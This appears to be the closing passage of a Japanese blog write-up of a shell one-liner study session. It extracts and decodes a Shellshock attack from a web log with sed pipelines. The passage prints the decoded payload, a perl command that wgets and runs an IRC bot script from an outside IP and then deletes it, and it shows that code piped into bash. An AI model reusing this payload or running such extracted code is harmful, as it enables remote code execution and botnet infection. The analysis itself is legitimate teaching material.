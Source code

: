 まず最初にコードの抽出を行いますが、当日のツイート

    $ cat danger_log | sed 's/\\"/%22/g' | awk -vFPAT='\\[[^]]*\\]|"[^"]*"|[^ ]+' '{print $11}' | sed 's/%22/\\"/g'

のように煩雑なことをしなくても

    $ cat danger_log | sed 's/^.* \("().*\)/\1/'

のようなシンプルなワンライナーでコードの抽出という要求には十分応えることができるでしょう。

A7-2:
-----

そしてA7-1(の別解)で抽出したコードを復元するために、以下の様に行頭・行末の「"」とエスケープを掃除するための処理を付け加えます。

    $ cat danger_log | sed 's/^.* \("().*\)/\1/' | sed 's/^"\|"$//g' | sed 's/\\"/"/g' | sed 's/\\\\/\\/g'

A7-3:
-----

最後に行頭の「() { :;};」を取り除けば、実行可能なコードの完成です。

それでは、指示通り最終行のみ実行してみましょう。

    $ tail -n1 danger_log | sed 's/^.* \("().*\)/\1/' | sed 's/^"\|"$//g' | sed 's/\\"/"/g' | sed 's/\\\\/\\/g' | sed 's/^.*};//' | bash -x
    + /usr/bin/perl -e 'print "Content-Type: text/plain\r\n\r\nXSUCCESS!";system("wget -q http://192.168.63.71/android.txt -O /tmp/android.txt;perl /tmp/android.txt;rm -rf /tmp/android*");'
    Content-Type: text/plain

    XSUCCESS!

なお、実際に実行した場合はwgetがアクセスに失敗するので「Ctrl+C」で処理を止めて下さい。

ちなみに、ダウンロード対象となっているandroid.txtの正体はポートスキャンやTCP/UDP flood攻撃などの機能を持つPerlで書かれたIRCボットです。実に危険です(ソース自体は勉強になりますが……)。

------------------------------------------------------------------------------

おわりに
--------

「はじめに」でも書きましたように、今回のシェル芸勉強会ではスタート前から高難度の課題が出され「あくまでもシェル芸はプロの技術である」ということを思い知ることになりました。

……そういう訳で、当記事は以下の言葉で締めくくることにいたします。

**「シェル芸こわい」**

最後に、問題作成に限らず勉強会を全面的に支えていらっしゃるシェル芸家元の[@ryuichiueda](https://twitter.com/ryuichiueda)さんおよび大阪サテライトを主催された[@kunst1080](https://twitter.com/kunst1080)さんに対し、この場で改めてお礼を申し上げます。本当にありがとうございました。
